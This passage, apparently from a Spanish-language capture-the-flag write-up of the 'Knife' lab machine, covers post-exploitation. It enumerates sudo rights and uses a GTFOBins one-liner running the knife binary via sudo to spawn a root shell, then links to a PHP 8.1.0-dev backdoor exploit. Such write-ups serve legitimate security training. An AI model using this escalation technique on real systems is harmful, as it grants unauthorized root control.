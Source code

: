 Recuerda hacer interactiva esta shell.

¡Listo! Tenemos la flag del usuario, ahora, veamos como escalar privilegios.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Enum">Enumeración de Máquina y Escalando Privilegios con Binario</h2>

Veamos qué privilegios tenemos:
```bash
james@knife:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Resulta que esto es un binario, veamos que nos dice nuestra biblia **GTFObins** sobre este binario:
* <a href="https://gtfobins.github.io/gtfobins/knife/" target="_blank">GTFOBins: knife</a>

Nos explica una forma de como escalar privilegios, vamos a probarlo:
```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
```

a...bueno, busquemos la flag:
```bash
# cd /root
# ls
delete.sh  root.txt  snap
# cat root.txt
...
```
Muy bien, ya completamos la máquina.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.exploit-db.com/exploits/49933
* https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
* https://github.com/flast101/php-8.1.0-dev-backdoor-rce
* https://gtfobins.github.io/gtfobins/knife/
